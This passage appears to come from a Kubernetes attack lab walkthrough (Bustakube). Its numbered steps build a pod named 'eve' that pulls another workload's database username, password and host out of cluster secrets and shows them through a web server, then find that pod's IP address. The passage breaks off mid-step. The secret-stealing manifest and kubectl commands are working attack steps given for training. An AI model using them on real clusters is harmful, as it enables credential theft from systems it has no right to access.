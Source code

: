 43. Create a pod from the `bustakube/http-display-env-variables` image. This image runs a simple web server that displays any environment variables it has. You'll have this pod populate its `USER` and `PASSWORD` variables with the same secret that the `view-seat-sales` pod uses.

    ```shell
    cat <<END >pod-steal-secret.yaml
    apiVersion: v1
    kind: Pod
    metadata:
      labels:
        run: eve
      name: eve
    spec:
      containers:
      - image: bustakube/http-display-env-variables
        name: eve
        env:
        - name: USER
          valueFrom:
            secretKeyRef:
              name: transactions-secret
              key: user
        - name: PASSWORD
          valueFrom:
            secretKeyRef:
              name: transactions-secret
              key: password
        - name: DBHOST
          valueFrom:
            configMapKeyRef:
              name: transactions-cm
              key: dbhost
    END
    ```

44. Create this new pod:

    ```shell
    kubectl create -f pod-steal-secret.yaml
    ```

45. Now, let's get that pod's IP address. First, use `kubectl get pod` to see the pod's manifest and all its status:

    ```shell
    kubectl get pod eve -o yaml
    ```

46. Now, use `grep` to just get the `podIP` line:

    ```shell
    kubectl get pod eve -o yaml | grep podIP:
    ```

47. Now, parse that IP and place it in a variable called `ip`:
